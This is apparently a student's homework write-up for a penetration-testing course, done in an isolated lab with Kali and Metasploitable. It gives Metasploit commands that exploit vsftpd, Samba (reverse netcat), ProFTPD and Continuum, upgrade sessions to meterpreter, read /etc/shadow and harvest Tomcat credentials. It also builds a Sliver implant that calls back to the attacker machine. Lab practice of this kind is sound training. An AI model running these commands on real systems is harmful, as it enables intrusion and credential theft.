



<a name="h2-social-exploit"></a>
# 🔓 H2 Social Exploit

<a name="contents"></a>
## 📑 Contents

- [🔓 H2 Social Exploit](#h2-social-exploit)
  - [📑 Contents](#contents)
  - [📋 Assignments](#assignments)
  - [📝 X) Read and Summarize Task](#x-read-and-summarize-task)
    - [📖 Chapter Summary: Mastering Metasploit](#chapter-summary-mastering-metasploit)
  - [🔓 A) Practice in Virtual Network](#a-practice-in-virtual-network)
  - [🚀 B) Launch msfconsole in Metasploit](#b-launch-msfconsole-in-metasploit)
  - [📡 C) Locate Metasploitable via Port Scanning](#c-locate-metasploitable-via-port-scanning)
  - [🔍 D) Perform a Thorough Port Scan of Metasploitable](#d-perform-a-thorough-port-scan-of-metasploitable)
  - [📊 E) Examine Metasploit’s Database](#e-examine-metasploits-database)
  - [📄 F) Compare File and Database Storage](#f-compare-file-and-database-storage)
  - [🔓 G) Exploit vsftpd on Metasploitable](#g-exploit-vsftpd-on-metasploitable)
  - [📈 H) Upgrade the Session to Meterpreter](#h-upgrade-the-session-to-meterpreter)
  - [🔍 I) Gather Lateral Movement Information](#i-gather-lateral-movement-information)
  - [🔨 J) Exploit Using Another Method](#j-exploit-using-another-method)
  - [⚙️ K) Demonstrate Meterpreter Features](#k-demonstrate-meterpreter-features)
  - [📝 L) Log the Shell Session with Script](#l-log-the-shell-session-with-script)
  - [💻 M) Optional: Get a tty Shell on Metasploitable](#m-optional-get-a-tty-shell-on-metasploitable)
  - [🛠️ N) Optional, Advanced: Use a Competing Tool](#n-optional-advanced-use-a-competing-tool)
  - [🖥️ O) Optional, Advanced: Install and Exploit Metasploitable 3](#o-optional-advanced-install-and-exploit-metasploitable-3)
  - [🛠️ Tools and Hardware Used](#tools-and-hardware-used)
  - [📂 Resources](#resources)


<a name="assignments"></a>
## 📋 Assignments

<details>
X) Read/Watch/Listen and Summarize:
(In this subsection X, there is no need to perform tests on the computer; reading or listening and a brief summary are enough. A few bullet points will suffice.)

Jaswal 2020: Mastering Metasploit - 4th ed.: Chapter 1: Approaching a Penetration Test Using Metasploit (from "Conducting a penetration test with Metasploit" to the end of the chapter, "Summary").
A) Practice in a Virtual Network
Set up a private virtual network with Kali and Metasploitable. Verify through tests that 1) the machines cannot connect to the internet and 2) the machines can communicate with each other. (No need to report on machine and network setup unless issues arise.)

B) Launch msfconsole in Metasploit
C) Locate Metasploitable via Port Scanning
Use db_nmap -sn for scanning. Confirm the IP by checking that the homepage of Metasploitable’s web server says "Metasploitable."

D) Perform a Thorough Port Scan of Metasploitable
Save results to Metasploit's databases (db_nmap) and files (nmap -oA foo).

E) Examine Metasploit’s Database
Use commands like "hosts" and "services" to view stored information. Experiment with filtering or searching these lists.

F) Compare File and Database Storage in nmap
Contrast nmap's file storage with db_nmap’s database storage in Metasploit. What are the advantages of each?

G) Exploit vsftpd on Metasploitable
H) Upgrade the Session to Meterpreter
I) Gather Lateral Movement Information
Collect data needed for lateral movement from Metasploitable, analyze it, and explain potential uses.

J) Exploit Metasploitable Using Another Method
(If difficult, consult online walkthroughs, and note how much assistance was needed.)

K) Demonstrate Meterpreter Features
L) Log the Shell Session Using the Script Tool
Use script -fa log001.txt to save the session.

M) Optional: Get a tty Shell on Metasploitable
Try to open a full tty shell in Metasploitable (e.g., open nano in full screen).

N) Optional, Advanced: Use a Competing Tool
Try a different attack or remote access tool, like Sliver.

O) Optional, Advanced: Install and Exploit Metasploitable 3
Reference: Karvinen 2018 - Install Metasploitable 3 – Vulnerable Target Computer.

</details>

<a name="x-read-and-summarize-task"></a>
### 📝 X) Read and Summarize Task

https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31

- Pentesting is attacking a network or system with intention to find vulnerabilities.
- Helps organizations understand flaws and keep up with securing their systems.
- Good pentesting requires good tools and techniques


<a name="chapter-summary-mastering-metasploit"></a>
#### 📖 Chapter Summary: Mastering Metasploit

<a name="a-practice-in-virtual-network"></a>
## 🔓 A) Setup Virtual Network

Previously completed in class on laptop, but lets repeat the process at home on desktop, one of the most important steps before starting the pentests is to secure the environment to not accidentally attack outside of our network.

Kali VM with 2 NIC:s(NAT + Host only adapter)
Metasploitable 2 VM with 1NIC(Host-only adapter)

Kali has access to internet, lets shut it down.


Then i run the following command to see if metasploitable is up and reachable:
```nmap -sn 192.168.56.0/24 ```

seems to be up on 192.168.56.101 lets continue with next task.

<a name="b-launch-msfconsole-in-metasploit"></a>
## 🚀 B) Launch msfconsole in Metasploit

```sudo msfconsole```


<a name="c-locate-metasploitable-via-port-scanning"></a>
## 📡 C) Locate Metasploitable via Port Scanning

inside msfconsole we run the command ```db_nmap -sV 192.168.56.101```


It seems our db is not up, lets close msfconsole and start postgresql
```sudo systemctl start postgresql.service```


after this we restart msfconsole and now the nmap is working

```db_nmap -sn 192.168.56.0/24```


<a name="d-perform-a-thorough-port-scan-of-metasploitable"></a>
## 🔍 D) Perform a Thorough Port Scan of Metasploitable

we first run ```db_nmap -A 192.168.56.101``` 

we are getting lots of data about the target and its services


<a name="e-examine-metasploits-database"></a>
## 📊 E) Examine Metasploit’s Database

```hosts``` and ```servces``` commands give a good overview of the network


We can further filter the database info, for example

```
services - 80
```
Is showing us all hosts with a service on port 80


We can also choose what columns are shown and create a custom list

```hosts -c address,os_flavour,os_name,purpose ```

with ```-o``` these could be output to a file


<a name="f-compare-file-and-database-storage"></a>
## 📄 F) Compare File and Database Storage

Example ```nmap -sV -oN scan.txt 192.168.56.101```
gives us a pretty clean text file of services on the target 


But the db_nmap database actually gives us some more data, and also updating lists when doing new scans, has easier filtering options and as default the services command for msfdb gives us additional data about the services that updates when we run exploits and further scans. Also saves history data.


<a name="g-exploit-vsftpd-on-metasploitable"></a>
## 🔓 G) Exploit vsftpd on Metasploitable

First I use the search command inside msfconsole for vsftpd 2.3.4 to find usable exploits.

```search vsftpd 2.3.4```


found a possible exploit with "excellent" rank, lets try it

```use 0``` runs the exploit we just searched, alternatively we can use the "use" command to select our exploit ```use exploit/unix/ftp/vsftpd_234_backdoor```

then we have to select our target with set rhosts
```set rhosts 192.168.56.101```

then we run the exploit with ```exploit``` or ```run```



This time it did not automatically open session but with ```sessions``` command we can see that its connected.


then ```sessions 1``` activates the session, after connection i test it with ```whoami``` command


<a name="h-upgrade-the-session-to-meterpreter"></a>
## 📈 H) Upgrade the Session to Meterpreter

we drop our session to background with ```ctrl+z``` 
then upgrade to meterpreter with ```sessions -u 1```

now we can list our ```sessions``` and open the meterpreter session
```sessions 2```


<a name="i-gather-lateral-movement-information"></a>
## 🔍 I) Gather Lateral Movement Information

Lets see what we are working with, starting with ```sysinfo``` and ```getuid```


we can tell we are inside a linux system as root

lets gather some user and password data, this could be further used to crack the passwords.

```cat /etc/passwd/```


example:
```cat /etc/shadow/```


we could also search for other private or important data like ssh keys:


<a name="j-exploit-using-another-method"></a>
## 🔨 J) Exploit Using Another Method

Lets back out from meterpreter with exit, then unload the exploit with back. Now listing services again, lets try ssh brute-force login with root and rockyou.txt



basic configuration done, then lets run


This seems extremely slow, i decide to stop and try something different.

Listing services again:


This time i choose samba, first i search for possible exploits with

```search samba 3.0```


i load up the first one with ```use 0``` it has excellent rank but its old, lets give it a try. Im using the default payload ***cmd/unix/reverse_netcat***


Exploit should work, but i forgot to setup **LHOST** and **LPORT**


**Success**, this exploit works aswell.


<a name="k-demonstrate-meterpreter-features"></a>
## ⚙️ K) Demonstrate Meterpreter Features

I start with listing sessions then upgrading our new session to meterpreter with ```sessions -u 3```

After the session finishes upgrading to meterpreter, i open the session



meterpreter is a handy tool with built in functions to exploit and run commands or load scripts to a target system, with help command we get a list of:

- core commands
- file system commands
- networking commands
- system commands
- webcam commands
- mic commands
- audio output commands

Im intrested in the extensions and modules, so a quick google search lands me to a [medium article](https://medium.com/@rob.mccarthy31/meterpreter-tips-tricks-17877dda10fa) giving some advice, it includes a "hot tip" of using a post module exploit suggester:

```run post/multi/recon/local_exploit_suggester```


Seems useful

Lets browse other post/multi modules


I try to look for something useful, remembering this target had tomcat live on http://192.168.56.101:8180/ so lets run the tomcat gather module


user + password found, tomcat:tomcat


Login works


<a name="l-log-the-shell-session-with-script"></a>
## 📝 L) Log the Shell Session with Script

```script -fa logfile.txt``` starts recording the shell window to a log file live, to back out we type exit, here is result of the log file:


<a name="m-optional-get-a-tty-shell-on-metasploitable"></a>
## 💻 M) Optional: Get a tty Shell on Metasploitable

No clue how to solve this, [asking chatgpt ](imagesh2/image-35.png)

with session active, first going to shell then,

```python -c 'import pty; pty.spawn("/bin/bash")'```

spawning tty shell with python and running 

```export TERM=xterm```


Seems to work!


<a name="n-optional-advanced-use-a-competing-tool"></a>
## 🛠️ N) Optional, Advanced: Try another attack tool or hostile remote access tool, such as Sliver.

installing sliver:
```
sudo apt-get install sliver 
```
running sliver:
```
sudo sliver-server
```
next we need to compile payload for the victim:
```
generate --os linux --arch x86 --format elf --mtls 192.168.56.104:443
```


running mtls listener on port 443 with

```
mtls -l 443
```
and confirm its running with ```jobs``` command


Generated payloads, uploaded and executed them with meterpreter, but it just would not connect to my server. Decided to move on to next task and solve this later if i have the time.


<a name="o-optional-advanced-install-and-exploit-metasploitable-3"></a>
## 🖥️ O) Optional, Advanced: Install and Exploit Metasploitable 3

Downloaded metasploit3 ubuntu version with vagrant as per guide here (https://portal.cloud.hashicorp.com/vagrant/discover/noordev/metasploitable3)

After awhile its downloaded, i setup network same was as on metasploit2, host only adapter and start it


back to my kali vm, i can see theres a new ip address, 192.168.56.105


running the db_nmap -A and then filter services to show me the new target to see what we have to play with


Seems to have some intresting stuff, I first try searching ProFTPD with metasploit search

```
search ProFTPD 1.3.5
use 0
set RHOSTS 192.168.56.105
set LHOST 192.168.56.104
run
```


Cant get through, says directory maybe not writeable? 


I decide to move on and try something else

I try similiar approach with the Jetty service, but no luck


After browsing the target http website i came accross some panel hosted on port 8080 and named continuum, i try to access with some basic sql injections, no luck.


I try searching continuum on the metasploit database


Found an exploit, lets try it


And **im in** with meterpreter. after that spent some time roaming around the files, tried some meterpreter modules like 
``` run post/linux/gather/enum_configs ```
and others similiar to this also gathering "loot"


<a name="tools-and-hardware-used"></a>
## 🛠️ Tools and Hardware Used

- Tools: Kali, metasploit, sliver, nmap, chatgpt, virtualbox, meterpreter

- Hardware: AMD 5900X, RTX 3080, 32GB RAM

<a name="resources"></a>
## 📂 Resources

https://www.offsec.com/metasploit-unleashed/using-databases/
db_nmap

https://terokarvinen.com/tunkeutumistestaus/
(karvinen 2024)

https://portal.cloud.hashicorp.com/vagrant/discover/noordev/metasploitable3
(metasploit3 install)

https://medium.com/@rob.mccarthy31/meterpreter-tips-tricks-17877dda10fa

https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31